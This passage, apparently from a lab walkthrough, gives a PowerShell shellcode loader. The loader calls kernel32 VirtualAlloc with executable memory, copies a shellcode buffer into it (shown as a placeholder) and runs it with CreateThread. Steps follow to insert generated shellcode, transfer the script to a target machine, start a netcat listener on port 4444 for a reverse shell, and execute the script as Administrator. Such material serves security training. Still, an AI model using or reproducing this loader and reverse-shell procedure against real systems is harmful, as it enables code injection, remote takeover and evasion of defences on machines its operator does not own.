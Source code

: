      Add-Type $VrtAlloc 

     $WaitFor= @"
     using System;
     using System.Runtime.InteropServices;

     public class WaitFor{
      [DllImport("kernel32.dll", SetLastError=true)]
         public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
     }
     "@

     Add-Type $WaitFor

     $CrtThread= @"
     using System;
     using System.Runtime.InteropServices;

     public class CrtThread{
      [DllImport("kernel32", CharSet=CharSet.Ansi)]
         public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
       
     }
     "@
     Add-Type $CrtThread   

     [Byte[]] $buf = SHELLCODE_PLACEHOLDER
     [IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
     [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
     $thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
     [WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
     ```

3. **Insert the Shellcode**:
   - Replace `SHELLCODE_PLACEHOLDER` with the generated shellcode from Step 2.

4. **Save the File**:
   - Save the file with the changes.

### **Step 4: Transfer the Script to the Target VM**
1. **Copy the Script**:
   - Transfer `shellcode.ps1` to the VM via clipboard or a hosted web server.

### **Step 5: Set Up a Listener**
1. **Start Netcat on the AttackBox**:
   - Open a terminal and start a listener on port `4444`:
     ```
     nc -nvlp 4444
     ```

### **Step 6: Execute the Script on the Target VM**
1. **Open PowerShell**:
   - Launch **PowerShell** as Administrator on the VM.
